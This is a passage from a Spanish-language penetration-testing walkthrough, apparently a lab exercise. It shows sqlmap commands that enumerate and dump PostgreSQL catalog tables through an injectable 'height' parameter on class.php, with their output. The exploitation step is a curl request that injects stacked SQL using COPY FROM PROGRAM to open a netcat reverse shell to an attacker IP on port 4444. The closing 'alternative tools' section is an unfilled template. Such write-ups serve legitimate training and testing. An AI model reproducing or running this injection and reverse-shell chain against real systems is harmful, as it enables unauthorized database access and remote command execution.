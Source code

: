 	| height     | int4      |
	| weight     | int4      |
	+------------+-----------+

	```
	- **sqlmap -u "http://192.168.193.49/class.php" --data="weight=70&height=174" -p height -D pg_catalog -T pg_auth_members --columns**
	```
	Database: pg_catalog
	Table: pg_auth_members
	[4 columns]
	+--------------+------+
	| Column       | Type |
	+--------------+------+
	| member       | oid  |
	| admin_option | bool |
	| grantor      | oid  |
	| roleid       | oid  |
	+--------------+------+

	```
	- ** sqlmap -u "http://192.168.193.49/class.php" --data="weight=70&height=174" -p height -D pg_catalog -T pg_auth_members -C member,admin_option,grantor,roleid --dump**
	```
	Database: pg_catalog
	Table: pg_auth_members
	[3 entries]
	+----------+--------------+---------+--------+
	| member   | admin_option | grantor | roleid |
	+----------+--------------+---------+--------+
	| 3373     | false        | 10      | 3374   |
	| 3373     | false        | 10      | 3375   |
	| 3373     | false        | 10      | 3377   |
	+----------+--------------+---------+--------+
	```
	- **
4. Paso 4: Explotacion:
	- ** curl -X POST "http://192.168.193.49/class.php" -d "weight=89&height='%3bDROP+TABLE+IF+EXISTS+commandexec%3bCREATE+TABLE+commandexec(data+text)%3bCOPY+commandexec+FROM+PROGRAM+'/usr/bin/nc.traditional+-e+/bin/sh+192.168.45.185+4444'%3b--&age=24&gender=Male&email=test%40duckman.com"**

## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

